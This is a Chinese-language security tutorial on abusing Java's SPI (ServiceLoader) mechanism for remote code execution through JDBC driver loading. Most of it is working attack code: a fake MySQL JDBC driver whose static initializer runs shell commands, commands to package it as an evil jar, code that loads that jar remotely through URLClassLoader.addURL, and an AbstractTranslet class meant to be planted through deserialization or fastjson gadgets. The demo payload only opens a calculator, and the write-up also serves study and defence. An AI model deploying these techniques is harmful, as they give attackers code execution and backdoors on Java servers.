









# SPI机制

SPI ，全称为 Service Provider Interface，是一种服务发现机制

之前有在SnakeYaml反序列化漏洞复现的时候遇到过一次关于SPI机制，只知道会去在ClassPath路径下的META-INF/services文件夹查找文件，自动加载文件里所定义的类，文件名是接口的全定限名，文件内容是实现类的全定限名

除了在SnakeYaml中可以用到，在JDBC中也会用到这个SPI机制，这篇文章也主要是在学习SPI机制后，对JDBC发起一个攻击造成RCE

## 演示

我们有两种方式可以实现，一种是通过`ServiceLoad.load()`方法，由`java.util`包提供

另一种是通过`Service.providers`方法拿到实现类的实例，由`sum.misc.Service`提供

创建一个接口

```
package com.DawnT0wn;

public interface SPIService {
    public void execute();
}
```

创建实现类

```
package com.DawnT0wn;

public class SpiImpl implements SPIService{
    static {
        System.out.println("执行了静态代码块");
    }
    public void execute(){
        System.out.println("执行了execute");
    }
}
```

test.java

```
package com.DawnT0wn;

import sun.misc.Service;

import java.util.Iterator;
import java.util.ServiceLoader;

public class test {
    public static void main(String[] args) {
        Iterator<SPIService> providers = Service.providers(SPIService.class);
        ServiceLoader<SPIService> load = ServiceLoader.load(SPIService.class);

        while(providers.hasNext()) {
            SPIService ser = providers.next();
            ser.execute();
        }
        System.out.println("--------------------------------");
        Iterator<SPIService> iterator = load.iterator();
        while(iterator.hasNext()) {
            SPIService ser = iterator.next();
            ser.execute();
        }
    }
}
```

这里我们分别用两种方式去加载对应的类

在resources下新建一个META-INF/services文件夹，里面放一个写着实现类的，名字是SPI加载的接口的全限定名的文件



运行结果


可以看到，这里加载了SpiImpl类，调用了静态代码块，两次调用了execute（分别对应两种方法）

## SPI安全问题

既然SPI可以去加载指定的类，那就存在一定的安全问题，就拿SnakeYaml举例，找一个存在的接口，远程加载的jar包中有一个实现了这个接口的恶意类，通过SPI机制加载了jar包的恶意类，造成了RCE

恶意类

```
package com.DawnT0wn;

import java.io.IOException;

public class SPICalc implements SPIService{
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public void execute(){}
}
```


不同加载的类，用换行隔开



test.java代码不变

# JDBC中的SPI

前面提到了JDBC中用到了SPI机制，可以来看看是怎么实现的

我们注册的时候需要用到DriverManager的registerDriver方法

```
DriverManager.registerDriver(new com.mysql.cj.jdbc.Driver());
```


`com.mysql.cj.jdbc.Driver`中的静态代码块调用了`DriverManager`类的`registerDriver`方法，因此JVM又会去加载`DriverManager`类，加载过程中`DriverManager`的静态代码块被执行。而 `DriverManager`的静态代码块中调用了`loadInitialDrivers`方法

所以这里可以直接new com.mysql.cj.jdbc.Driver()即可，这里也就是为什么我们有时候看到的代码是这样的

```
Class.forName("com.mysql.jdbc.Driver");
```

因为Class.forName加载类的时候会执行其静态代码块

DriverManager的静态代码块


跟进这里的loadInitialDrivers



调用了如下方法

```
AccessController.doPrivileged(new PrivilegedAction<Void>() {
    public Void run() {

        ServiceLoader<Driver> loadedDrivers = ServiceLoader.load(Driver.class);
        Iterator<Driver> driversIterator = loadedDrivers.iterator();

        /* Load these drivers, so that they can be instantiated.
         * It may be the case that the driver class may not be there
         * i.e. there may be a packaged driver with the service class
         * as implementation of java.sql.Driver but the actual class
         * may be missing. In that case a java.util.ServiceConfigurationError
         * will be thrown at runtime by the VM trying to locate
         * and load the service.
         *
         * Adding a try catch block to catch those runtime errors
         * if driver not available in classpath but it's
         * packaged as service and that service is there in classpath.
         */
        try{
            while(driversIterator.hasNext()) {
                driversIterator.next();
            }
        } catch(Throwable t) {
        // Do nothing
        }
        return null;
    }
```

可以看到，这就是SPI机制的代码



而这里的接口是java.sql.Driver

加载我们在`META-INF/services/java.sql.Driver`文件中写的实现类



可以来看看ClassPath下有哪些能够通过SPI加载

```
package JDBCTest;

import java.sql.Driver;
import java.util.Iterator;
import java.util.ServiceLoader;

public class JdbcDriverList {
    public static void main(String[] args) {

        ServiceLoader<Driver> serviceLoader = ServiceLoader.load(Driver.class, ClassLoader.getSystemClassLoader( ));

        for(Iterator<Driver> iterator = serviceLoader.iterator(); iterator.hasNext();) {

            Driver driver = iterator.next();

            System.out.println(driver.getClass().getPackage() + " ------> " + driver.getClass().getName());
        }
    }
}
```



我这里只有一个mysql的驱动

接下来，我们来打包一个恶意的driver

一个实现java.sql.Driver的恶意类

```
package com.mysql.fake.jdbc;

import java.sql.*;
import java.util.*;
import java.util.logging.*;

public class MySQLDriver implements java.sql.Driver {

    protected static boolean DEBUG = false;

    protected static final String WindowsCmd = "calc";

    protected static final String LinuxCmd = "open -a calculator";

    protected static  String shell;

    protected static  String args;

    protected static  String cmd;


    static{
        if(DEBUG){
            Logger.getGlobal().info("Entered static JDBC driver initialization block, executing the payload...");
        }


        if( System.getProperty("os.name").toLowerCase().contains("windows") ){

            shell = "cmd.exe";
            args = "/c";
            cmd = WindowsCmd;
        } else {

            shell = "/bin/sh";
            args = "-c";
            cmd = LinuxCmd;
        }
        try{

            Runtime.getRuntime().exec(new String[] {shell, args, cmd});

        } catch(Exception ignored) {

        }
    }


    // JDBC methods below


    public boolean acceptsURL(String url){
        if(DEBUG){
            Logger.getGlobal().info("acceptsURL() called: "+url);
        }

        return false;
    }

    public Connection connect(String url, Properties info){
        if(DEBUG){
            Logger.getGlobal().info("connect() called: "+url);
        }

        return null;
    }


    public int getMajorVersion(){
        if(DEBUG){
            Logger.getGlobal().info("getMajorVersion() called");
        }

        return 1;
    }

    public int getMinorVersion(){
        if(DEBUG){
            Logger.getGlobal().info("getMajorVersion() called");
        }

        return 0;
    }

    public Logger getParentLogger(){
        if(DEBUG){
            Logger.getGlobal().info("getParentLogger() called");
        }

        return null;
    }

    public DriverPropertyInfo[] getPropertyInfo(String url, Properties info){
        if(DEBUG){
            Logger.getGlobal().info("getPropertyInfo() called: "+url);
        }

        return new DriverPropertyInfo[0];
    }

    public boolean jdbcCompliant(){
        if(DEBUG){
            Logger.getGlobal().info("jdbcCompliant() called");
        }

        return true;
    }
}
```

项目结构


```
javac MySQLDriver.java
jar -cvf eviljdbc.jar -C java/ .
```

这里不要用maven去打包，因为我们需要打包后的jar包的项目结构是如下结构

、

存在一个写好META-INF/services文件夹

打包好后再来看看存在的JBDC驱动


因为这里我是去通过SPI机制打印的有什么实现类，所以这里会加载弹出计算器

接下来，我们通过Drivermanager的静态代码块来加载SPI服务



因为前面说过JDBC中的SPI机制通过是DriverManager的静态代码块，所以这里我们只需要调用DriverManager的一个任意方法加载这个类执行静态代码块即可

## 远程加载Jar包

我们知道，通过URLClassLoader可以远程加载一个jar包，实例化其中的类

```
URL url = new URL("http://127.0.0.1:8888/eviljdbc.jar");
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
urlClassLoader.loadClass("com.mysql.fake.jdbc.MySQLDriver").newInstance();
```

但是呢，我们通过SPI实现JDBC后门需要加载整个jar包，所以需要用URLClassLoader的addURL来加载jar包

```
URLClassLoader loader = (URLClassLoader) eviltest.class.getClassLoader();
URL url = new URL("http://127.0.0.1:8888/eviljdbc.jar");

Class clazz = Class.forName("java.net.URLClassLoader");
Method method = clazz.getDeclaredMethod("addURL", URL.class);
method.setAccessible(true);
method.invoke(loader,url);
//loader.loadClass("com.mysql.fake.jdbc.MySQLDriver").newInstance();
DriverManager.getConnection("aa");
```



既然可以这样去远程加载jar包的话，那就可以去写一个恶意类了

这样就可以在一些地方（反序列化调用TemplatesImpl的时候，fastjson调用BCEL的时候）

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

public class loadJar extends AbstractTranslet {

    static {
        String url = "http://127.0.0.1:8888/eviljdbc.jar";
        try {
            URL url1 = new URL(url);
            // 获取类加载器的addURL方法
            Class<?> aClass = Class.forName("java.net.URLClassLoader");
            Method addURL = aClass.getDeclaredMethod("addURL", URL.class);
            addURL.setAccessible(true);

            // 获取系统类加载器
            URLClassLoader systemClassLoader = (URLClassLoader) ClassLoader.getSystemClassLoader();
            addURL.invoke(systemClassLoader, url1);
        } catch (Exception e) {
            e.printStackTrace();
        }

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


参考链接

[JavaSec/SPI.md at main · Y4tacker/JavaSec (github.com)](https://github.com/Y4tacker/JavaSec/blob/main/1.基础知识/SPI/SPI.md)

http://tttang.com/archive/1819/#toc_0x03-jdbc-driver

https://xz.aliyun.com/t/11837#toc-4